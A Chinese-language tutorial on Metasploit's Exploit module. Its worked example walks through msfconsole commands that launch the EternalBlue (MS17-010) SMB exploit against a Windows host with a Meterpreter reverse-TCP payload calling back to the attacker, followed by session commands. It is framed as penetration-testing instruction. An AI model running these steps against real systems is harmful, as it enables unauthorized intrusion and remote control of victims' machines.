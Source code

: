 Exploit模块是Metasploit框架的核心模块之一，用于执行漏洞利用攻击。通过Exploit模块，渗透测试人员可以利用目标系统中的已知漏洞获取系统访问权限或执行其他恶意操作。Exploit模块通常与Payload（有效载荷）模块结合使用，以便在成功利用漏洞后执行特定的操作。

### Exploit模块的功能
Exploit模块的主要功能是：
- 利用目标系统中的漏洞
- 获取目标系统的访问权限
- 执行后渗透操作（结合Payload）
- 测试和验证漏洞

### 使用Exploit模块的步骤
使用Exploit模块进行渗透测试的步骤如下：

1. **启动msfconsole**：
   打开终端并启动Metasploit控制台。
   ```bash
   msfconsole
   ```

2. **查找Exploit模块**：
   使用`search`命令查找目标漏洞的Exploit模块。例如，要查找针对某个服务的漏洞利用模块：
   ```bash
   search exploit/windows/smb
   ```

3. **选择Exploit模块**：
   使用`use`命令选择你要使用的Exploit模块。例如，选择一个SMB漏洞利用模块：
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

4. **查看模块信息**：
   使用`info`命令查看该模块的详细信息，包括需要的选项和描述：
   ```bash
   info
   ```

5. **设置选项**：
   根据模块的信息设置所需的选项，例如目标主机（RHOSTS）、目标端口（RPORT）等。例如，设置目标主机为192.168.1.100：
   ```bash
   set RHOSTS 192.168.1.100
   ```

6. **选择Payload**：
   使用`set`命令设置一个合适的Payload，例如Meterpreter反向TCP：
   ```bash
   set PAYLOAD windows/meterpreter/reverse_tcp
   ```

7. **设置Payload选项**：
   根据Payload的要求设置选项，例如本地主机（LHOST）和本地端口（LPORT）。例如，设置LHOST为攻击者的IP地址：
   ```bash
   set LHOST 192.168.1.1
   set LPORT 4444
   ```

8. **运行Exploit模块**：
   使用`run`或`exploit`命令运行配置好的Exploit模块：
   ```bash
   run
   ```

以下是一个具体的例子，详细演示如何使用Exploit模块利用SMB漏洞：

### 示例：利用SMB漏洞（EternalBlue）获取目标系统访问权限

1. **启动msfconsole**：
   ```bash
   msfconsole
   ```

2. **搜索SMB漏洞利用模块**：
   ```bash
   search exploit/windows/smb/ms17_010_eternalblue
   ```

3. **选择EternalBlue Exploit模块**：
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

4. **查看模块信息**：
   ```bash
   info
   ```

5. **设置目标主机**：
   ```bash
   set RHOSTS 192.168.1.100
   ```

6. **选择Meterpreter反向TCP Payload**：
   ```bash
   set PAYLOAD windows/meterpreter/reverse_tcp
   ```

7. **设置Payload选项**：
   ```bash
   set LHOST 192.168.1.1
   set LPORT 4444
   ```

8. **运行Exploit模块**：
   ```bash
   run
   ```

运行后，如果漏洞利用成功，你将看到Meterpreter会话提示符，这表示你已经获得了目标系统的访问权限。

### 其他常用命令
- **显示可用Exploit模块**：
  ```bash
  show exploits
  ```

- **查看当前会话**：
  
  ```bash
  sessions
  ```
  
- **与特定会话交互**：
  ```bash
  sessions -i <session-id>
  ```

通过以上步骤和示例，你可以使用Metasploit的Exploit模块进行漏洞利用攻击。这些模块是渗透测试的核心部分，帮助你发现并利用目标系统中的安全漏洞。